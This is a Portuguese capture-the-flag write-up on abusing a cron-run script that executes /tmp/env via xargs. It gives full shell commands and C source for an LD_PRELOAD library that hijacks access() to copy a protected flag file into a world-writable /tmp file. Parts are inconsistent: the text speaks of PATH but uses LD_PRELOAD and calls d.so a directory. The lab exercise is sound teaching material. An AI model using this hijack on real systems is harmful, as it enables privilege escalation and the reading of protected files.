






# CTF4

Seguindo a recomendação inicial do guião do CTF:










reparamos que quando o **crond** é executado, este executa `my_script.sh` e o output é guardado em `/tmp/last_log`.

Verifica-se que `/tmp` e `/run ` são os únicos diretórios onde nós temos permissões de escrita.
No diretório `/tmp` existe um ficheiro `env` que é atualizado todos os minutos, com permissões de flag_reader, através do **crond**.

O conteúdo de `my_script.sh` é o seguinte:




Podemos observar que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. A seguir, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós):

```note
export LD_PRELOAD=./d.so
```

Criando o diretório `d.so`, podemos criar e compilar um ficheiro c com a função access (chamada em main.c) de forma a passar a flag para o ficheiro .txt criado por nós:

```c
echo '#include <stdio.h>' > d.c
echo '#include <stdlib.h>' >> d.c
echo '#include <unistd.h>' >> d.c
echo 'int access(const char *pathname, int mode){' >> d.c
echo '    system("/bin/cat /flags/flag.txt > /tmp/myflag.txt");' >> d.c
echo '    return 0;' >> d.c
echo '}' >> d.c

gcc -fPIC -g -c d.c
gcc -shared -o d.so d.o -lc

touch myflag.txt
chmod 777 myflag.txt
echo "LD_PRELOAD=/tmp/d.so" > env
```


Finalmente, esperamos uma nova execução de `my_script.sh` e verifica-se que o `last_log` contém a flag:



